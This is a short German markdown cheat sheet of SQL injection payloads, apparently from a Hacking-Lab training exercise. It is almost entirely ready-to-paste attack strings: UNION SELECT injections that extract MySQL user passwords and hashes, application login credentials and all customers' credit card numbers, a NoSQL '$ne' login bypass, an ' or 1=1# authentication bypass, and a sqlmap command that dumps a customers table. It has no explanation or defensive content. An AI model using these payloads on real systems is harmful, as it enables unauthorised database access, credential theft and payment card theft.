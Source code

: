 # SQL Injection
## MySQL Plaintext Passworte
```
%' IN BOOLEAN MODE) UNION SELECT LAST_INSERT_ID(),user,Db,1,1 FROM mysql.db -- -
```
  
## MySQL Hashed Passworte
```
%' IN BOOLEAN MODE) UNION SELECT LAST_INSERT_ID(),user,password,1,1 FROM mysql.user -- -
```

## Writeup
* https://pastebin.com/jFMw8PKA

## Misc
* Database Login: 
`%' IN BOOLEAN MODE) UNION SELECT LAST_INSERT_ID(),user,Db,1,1 FROM mysql.db -- -`
* Table Columns: `%' IN BOOLEAN MODE) PROCEDURE ANALYSE() -- -`
* Username/Passwords: `%' IN BOOLEAN MODE) UNION SELECT user(),username,password,1,1 FROM login.users -- -`
* Credit Card for all Customers: `%' IN BOOLEAN MODE) UNION SELECT null,username,creditcard,'',null FROM customers -- -`
* Username/Password from MySQL: `%' IN BOOLEAN MODE) UNION SELECT LAST_INSERT_ID(),user,password,1,1 FROM mysql.user -- -`


## NoSQL Exploit
```
    username: {"$ne": null}
    password: {"$ne": null}
```

## Login SQL Injection
```
    username: hacker10
    password: ' or 1=1#
```

## sqlmap Beispiele
```
sqlmap -u http://glocken.hacking-lab.com/12001/inputval_case3/inputval3/controller\?words\=treichel\&send\=suchen\&action\=search -D glocken_emil -T customers –dump
```



